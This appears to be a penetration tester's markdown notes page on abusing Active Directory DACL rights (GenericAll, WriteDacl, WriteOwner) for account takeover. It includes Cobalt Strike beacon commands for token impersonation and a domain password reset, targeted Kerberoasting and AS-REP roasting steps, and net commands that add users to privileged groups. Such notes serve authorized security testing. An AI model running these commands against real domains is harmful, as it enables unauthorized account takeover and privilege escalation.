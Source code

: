 # Discretionary Access Control Lists (DACL)
A principal has ACLs on more privileged accounts (like via IT-Support OU), that enable them to takeover the account.

Interesting permissions:
* GenericAll
* WriteProperty
* WriteDacl

## WriteDacl
Grant [[Discretionary Access Control Lists (DACL)#GenericAll]] to any principle.

## WriteOwner
Change the ownership of the object to any principal which would then inherit GenericAll over it.

## GenericAll
### Password Reset
⛔ Use NEVER (only with explicit permission of the customer)  
#OPSEC very bad
``````beacon
beacon> getuid
[*] You are EDU\john

beacon> make_token EDU\doe Passw0rd1
[+] Impersonated EDU\john

beacon> run net user jonas Password123. /domain

The request will be processed at a domain controller for domain edu.evil.corp.

The command completed successfully.
``````

### Add SPN for [[Kerberoasting]]
1. Set an SPN via [[PowerView#Change DomainObject (SPN)]]
2. Can be performed via [[Rubeus#Targeted Kerberoasting]]

### Add SPN for [[AS-REP Roasting]]
Modify the User Account Control value on the account to disable preauthentication and then ASREProast it.
1. [[PowerView#Add DONT_REQ_PREAUTH flag]]
2. [[Rubeus#AS-REP Roasting]]

### Add and remove members
* Add join to `SQL Admins`
> run net group "SQL Admins" john /add /domain
* Check johns groups
> run net user john /domain


## Tools
########
########


```meta
ttp: T1000
requirements:
results: 
description: 
```